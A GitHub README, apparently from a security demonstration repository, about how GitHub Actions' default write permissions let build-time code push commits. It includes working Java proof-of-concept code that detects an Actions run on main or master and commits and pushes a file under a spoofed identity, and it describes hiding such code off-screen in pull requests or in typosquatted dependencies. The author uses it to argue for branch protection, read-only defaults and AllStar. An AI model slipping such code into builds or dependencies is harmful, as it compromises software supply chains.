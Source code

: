 # Musical-Okto-Carnival

GitHub actions by default allow any code executed as part of the action, except
when running as part of a PR from a forked repository, to commit changes to the
main branch. This is exceedingly dangerous and could allow the introduction of
malicious code into the source code repositories of widely used software.

GitHub provides repository owners a lot of control over what GitHub Actions
have access to; this has only been strengthend in recent months due to
[BitCoin mining attacks](https://www.coindesk.com/hackers-mined-crypto-on-githubs-servers-report).
However, by default an action running on a non-forked branch has write access
to the respository.

## Attacking Repositories on GitHub

Imagine a scenario where a maintainer of a widely used OSS package goes rogue
and decides they want to start spreading malicious code. For instance, if the
primary maintainer of [OWASP dependency-check](https://github.com/jeremylong/DependencyCheck)
decided to abuse the trust so many users have given the tool over the years.
What if the following code were introduced and called as part of the execution
of dependency-check:

```java
    private void provideWarning() {
        String ref = getEnv("GITHUB_REF", "");
        boolean isAction = Boolean.parseBoolean(getEnv("GITHUB_ACTIONS", "false"));
        boolean notPR = getEnv("GITHUB_HEAD_REF", "").isEmpty();
        boolean isMain = "refs/heads/main".equals(ref);
        boolean isMaster = "refs/heads/master".equals(ref);
        java.io.File f = new java.io.File("warning.md");

        if (isAction && notPR && (isMain || isMaster) && !f.exists()) {
            try (java.io.FileWriter writer = new java.io.FileWriter(f);
                    java.io.BufferedWriter out = new java.io.BufferedWriter(writer)) {
                out.write("Warning\n");
                out.write("=======\n\n");
                out.write("Branch protection is not enabled and GitHub Actions has the\n");
                out.write("ability to write to the repository. Any action or code executed\n");
                out.write("during the build, even code in third party dependencies called\n");
                out.write("during testing, could subvert the integrity of your project.\n\n");
                out.write("See [Disabling or limiting GitHub Actions for a repository]");
                out.write("(https://docs.github.com/en/actions/reference/environment-variables#default-environment-variables) ");
                out.write("for more information on how to protect you repository.");
                out.flush();
                out.close();
            } catch (java.io.IOException ex) {
                //ignore
            }
            exec("git config user.email \"actions@github.com\"");
            exec("git config user.name \"GitHub Actions\"");
            exec("git add warning.md");
            exec("git commit -m \"warning\" warning.md");
            if (isMain) {
                exec("git push origin main");
            } else {
                exec("git push origin master");
            }
        }
    }
    // The rest of the code is trivial helper functions used to make the example above more concise.
    private String getEnv(String name, String def) {
        String ret = System.getenv(name);
        if (ret == null) {
            ret = def;
        }
        return ret;
    }

    private void exec(String cmd) {
        try {
            Runtime run = Runtime.getRuntime();
            Process pr = run.exec(cmd);
            Thread in = new ProcessReader(pr.getInputStream());
            Thread err = new ProcessReader(pr.getErrorStream());
            in.start();
            err.start();
            if (pr.isAlive()) {
                pr.waitFor();
            }
            in.join();
            err.join();
        } catch (java.io.IOException | InterruptedException ex) {
            //ignore
        }
    }

    static class ProcessReader extends Thread {
        java.io.InputStream inputStream;
        byte[] buffer = new byte[1024];

        ProcessReader(java.io.InputStream inputStream) {
            this.inputStream = inputStream;
        }

        @Override
        public void run() {
            try {
                int read;
                do {
                    read = inputStream.read(buffer);
                } while (read != -1);
            } catch (java.io.IOException ex) {
                //ignore
            }
        }
    }
```

The above code example is lengthy for completness - but at its core it simply:

1. Validates that it is running as a GitHub Action running on the `main` or
   `master` branch.
2. If it is in the correct execution context it then writes a `warning.md`
   file into the root of the repository.
3. The `warning.md` is then added to git, committed to git, and then pushed
   to the `main` or `master` branch.

While the example is mostly harmless, it demonstrates how dangerous the default
permissions can be. One could add or modify code within the repository and the
commits could impersonate one of the contributers (all you need is their email
address) instead of the above code just using `actions@github.com`. Detecting
the introduction of the injected code could be difficult. A real attacker could
even check if the code was executing right after a merge event so maintainers
would have to do a pull anyway before being able to update.

The example code above could be introduced into any dependency, GitHub Action
from the marketplace, or really any code that is executed withinva GitHub
Action. Imagine the number of repositories that could be compromised if code
like the example above were introduced into JUnit or other testing framework.

## In Action

### Act 1

To see the payload in action, the code was added in
[PR #1](https://github.com/jeremylong/musical-octo-carnival/pull/1).

When run as part of the build of main the repository now has a `warning.md`.

As the PR indicates, the "attack" was done in plain site. There are numerous
was to mask the attack. The easiest would be to include a subverted dependency;
one could even create a look-a-like/typo squated dependency to make it easier
to introduce the code.

### Act 2

With [PR #2](https://github.com/jeremylong/musical-octo-carnival/pull/2) the
"malicious" code was cleaned up and the `warning.md` removed. Who needs that
cumbersome branch protection.

### Act 3

In Act 3 / [PR #3](https://github.com/jeremylong/musical-octo-carnival/pull/3)
the "malicious" code was re-introduced. This time discussed and completely
missed during the peer review due to the Unified view not have any indication
that there is code way off on the right starting at character 160. See the PR
for the example. This is just another way malicious code can be introduced.

If programming in a language that allows - it is recommended to use the "Split"
view when reviewing a PR. Alternatively, use a tool like Checkstyle with a line
length check enabled and anotate your PRs with the
[Violations-to-GitHub-Comment](https://github.com/tomasbjerre/violation-comments-to-github-command-line)
utility. The OWASP dependency-check project uses the violations maven plugin;
[example here](https://github.com/jeremylong/DependencyCheck/blob/fc010a869aee54d7fd0357a95f9c5b2da2597363/.github/workflows/pull_requests.yml#L31).

### Act 4

With Act 4 / [PR #4](https://github.com/jeremylong/musical-octo-carnival/pull/3)
we implement AllStar. Hopefully, the maintainer will actually resolve the
[issues](https://github.com/jeremylong/musical-octo-carnival/issues).

## Solutions

GitHub already has (almost) everything in place a user needs to secure their
repositories. Repository owners can enable branch protection or change the
default permissions on Actions to be read-only via the workflow yaml or using
a personal access token.

The recent introduction of [AllStars](https://github.com/ossf/allstar/blob/main/quick-start.md)
is awesome! AllStars will examine an organization or repository and alert
if any issues are discovered. However, tools like AllStars require users to
opt-in. As anyone in security knows when you start asking people to opt-in
you are doomed to fail. With AllStars we aren't just asking them to opt-in
to security, but we are asking them to opt-in just for a notification.

The best solution would be to make Actions secure by default. This could be
done by changing the default permission level for GitHub Actions to be read-only.
Making this change would obviously be difficult as it would end up breaking
a lot of builds. However, the default GitHub Action permissions on all new
repositories created should be made read-only. In order to do this GitHub
would need to introduce a way to control the default permissions beyond
just those for Pull Requests from forked repositories; currently the only
way to make an Action read-only is to provide a limited access token or
to use the `permissions` tag in the yaml. In most cases, Actioms do not
need the ability to write to a repository and for those that do one can
simply add the write permission in the yaml defining the Action.

Another solution available to GitHub would be to move the functionality of
AllStars from an Action in the Marketplace to an integral part of GitHub
just like was done with dependabot. As such, all repository owners could
be alerted, just like dependabot, if their repository is setup insecurely.
The warnings could be displayed only to the repository owners and provide
two buttons to assist with resolution:

1. Enable Branch Protection
2. Change Default Permissions to read-only

## End Scene

In summary, for now use [AllStars](https://github.com/ossf/allstar/blob/main/quick-start.md)
and secure your GitHub repos. When performing Peer Review - consider using
the `Split` view or using some other tool to detect long lines.
